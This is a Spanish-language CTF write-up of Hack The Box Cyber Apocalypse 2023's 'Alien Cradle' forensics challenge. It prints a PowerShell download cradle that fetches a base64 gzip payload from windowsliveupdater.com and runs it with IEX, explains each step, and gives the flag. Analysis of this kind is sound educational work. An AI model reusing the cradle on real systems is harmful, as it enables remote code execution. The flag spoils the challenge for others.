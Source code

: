 ```yaml
---
layout: single
title: Alien Cradle - CTF HTB Cyber Apocalypse 2023
excerpt: "Este es el segundo desafío forense del evento Cyber Apocalypse 2023 de Hack The Box. Se considera de dificultad very-easy y se nos proporciona un script de PowerShell pseudo-ofuscado que contiene la flag del desafío"
date: 2023-03-19
classes: wide
header:
  teaser: /assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - ctf
  - forense
tags:  
  - powershell
---
```


![](/assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg)

**Dificultad:** very-easy

## Enunciado

_En un intento de que los extraterrestres encontraran más información sobre la reliquia, lanzaron un ataque dirigido a los amigos cercanos y socios de Pandora que pueden conocer información secreta al respecto. Durante un incidente reciente que se cree que fue operado por ellos, Pandora localizó un extraño script de PowerShell de los registros de eventos, también llamado soporte de PowerShell. Estos scripts generalmente se usan para descargar y ejecutar la siguiente etapa del ataque. Sin embargo, parece ofuscado y Pandora no puede entenderlo. ¿Puedes ayudarla a desofuscarlo?_

## unzip - cat - echo - tr

Se nos entrega un archivo llamado "forensics_alien_cradle.zip" el cual en su interior posee un script de PowerShell llamado `cradle.ps1`.

Los archivos .ps1 se utilizan para almacenar y ejecutar secuencias de comandos de PowerShell de manera que puedan ser reutilizados y ejecutados de forma repetitiva. Los scripts de PowerShell pueden contener una serie de instrucciones, llamadas a cmdlets (comandos de PowerShell), funciones personalizadas y lógica de programación para automatizar tareas, manipular datos, administrar sistemas y más.
```
❯ unzip -l forensics_alien_cradle.zip
Archive:  forensics_alien_cradle.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      618  2023-03-06 12:29   cradle.ps1
---------                     -------
      618                     1 file

```
Luego de descompimir el achivo procedemos a verificar el contenido de `cradle.ps1`, el cual se ve de la siguiente manera:

```
❯ cat cradle.ps1

if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};
$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');
$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));
$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

A modo de información el script `cradle.ps1` realiza las siguientes acciones:
  - Verifica si el nombre de usuario actual no es 'secret_HQ\Arth' utilizando `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name.` Si el nombre de usuario no coincide, el script se detiene y finaliza la ejecución.
  - Crea una nueva instancia de `net.webclient` con `$w = New-Object net.webclient`.
  - Descarga el contenido de una URL específica utilizando `$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64')`. La URL se construye concatenando las cadenas separadas por el simbolo `+`.
  - Crea una nueva instancia de `IO.MemoryStream` utilizando `[Convert]::FromBase64String($d)` para decodificar el contenido descargado en base64.
  - Define una cadena indetificada como `$f` con el valor `'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'`.
  - Utiliza `IO.StreamReader` y `IO.Compression.GzipStream` para descomprimir el contenido del archivo descargado. A continuación, utiliza `ReadToEnd()` para leer todo el contenido descomprimido.
  - Finalmente, se utiliza `IEX` (Invoke-Expression) para ejecutar el contenido obtenido en el paso anterior.

Resulta bastante sencillo encontrar la flag, ya que está declarada dentro del script como valor de la variable `$f`. En este caso, se utiliza el método de ofuscación de concatenación de cadenas. Para desofuscar el mensaje, procedemos a utilizar el siguiente comando:
```
❯ echo "'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}" | tr -dc '[:alnum:]{}_'
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}  
```

`tr -dc '[:alnum:]{}_'` : El comando `tr` en Linux es una herramienta que se utiliza para realizar operaciones de traducción o transliteración de caracteres en un flujo de texto. El nombre "tr" es una abreviatura de "translate" (traducir). En este caso se esta utilizando con el argumento `-d` para eliminar caracteres y `-c` para especificar los caracteres que queremos mantener. `'[:alnum:]{}_'` especifica que se deben mantener los caracteres alfanuméricos ([:alnum:]), los corchetes ({}) y los guiones bajos (\_). Los demás caracteres se eliminarán.

## Flag

**HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}**
